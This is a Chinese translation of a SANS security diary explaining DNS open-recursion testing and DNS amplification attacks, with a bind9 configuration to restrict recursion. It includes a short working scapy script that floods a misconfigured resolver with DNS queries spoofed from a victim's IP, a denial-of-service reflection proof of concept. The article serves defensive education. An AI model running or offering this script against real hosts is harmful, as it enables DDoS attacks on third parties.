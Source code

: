 > 原文链接: https://www.anquanke.com//post/id/83245 


# 测试DNS区域递归漏洞以及避免DNS放大攻击


                                阅读量   
                                **170893**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[https://isc.sans.edu/forums/diary/Testing+for+DNS+recursion+and+avoiding+being+part+of+DNS+amplification+attacks/20567/](https://isc.sans.edu/forums/diary/Testing+for+DNS+recursion+and+avoiding+being+part+of+DNS+amplification+attacks/20567/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t01a635161d550c4aa1.jpg)](https://p4.ssl.qhimg.com/t01a635161d550c4aa1.jpg)

       尽管专家提醒过很多次，但仍然有非常多的DNS服务器允许递归解析到外网的设备，这一点可以被用来进行DNS放大攻击。

<br>

       那么怎样攻击呢？通常，攻击者使用僵尸网络向受害者的IP地址发送一个伪造的DNS请求，错误设置的DNS应答会使数据包被发送到受害者的IP地址，从而导致分布式拒绝服务攻击（DDoS）。

 

       怎样测试你的DNS设备是否允许来自外部的递归解析呢？你可以使用这个叫dns-recursion 的nmap脚本：



[![](https://p3.ssl.qhimg.com/t01e1aab07b97122eeb.png)](https://p3.ssl.qhimg.com/t01e1aab07b97122eeb.png)

       如果它没有被启用，你只会得到一个开放端口的指示：

 [![](https://p0.ssl.qhimg.com/t017e7a1957a3156593.png)](https://p0.ssl.qhimg.com/t017e7a1957a3156593.png)

 

       这个攻击是怎么运作的？我们来看下面的示意图：

[![](https://p1.ssl.qhimg.com/t012887091628fbea8b.jpg)](https://p1.ssl.qhimg.com/t012887091628fbea8b.jpg)

 

       攻击的POC可以很容易地用如下的scapy脚本被执行，由攻击者决定是否执行它：

```
#!/usr/bin/python
from scapy.all import *
victimIP = raw_input("Please enter the IP address for the victim: ")
dnsIP = raw_input("Please enter the IP address for the misconfigured DNS: ")
while True:
        send(IP(dst=dnsIP,src=victimIP)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="www.google.com")),verbose=0)
```



       我把这个脚本命名为dnscapy.py。当它执行时：

 

[![](https://p1.ssl.qhimg.com/t0166f2ba9933ca0e88.png)](https://p1.ssl.qhimg.com/t0166f2ba9933ca0e88.png)

 

       在受害者那边得到如下数据包：

[![](https://p2.ssl.qhimg.com/t013d9f592005f9d446.png)](https://p2.ssl.qhimg.com/t013d9f592005f9d446.png)

 

       怎样避免这种攻击呢？如果你正在使用bind9，那么把下面这些加入到全局选项。假设你的企业网络是10.1.1.0/24 和10.1.2.0/24：

```
acl recursiononly `{` 10.1.1.0/24; 10.1.2.0/24; `}`;
options `{`
  allow-query `{` any; `}`;
  allow-recursion `{` recursiononly; `}`;
`}`;
```




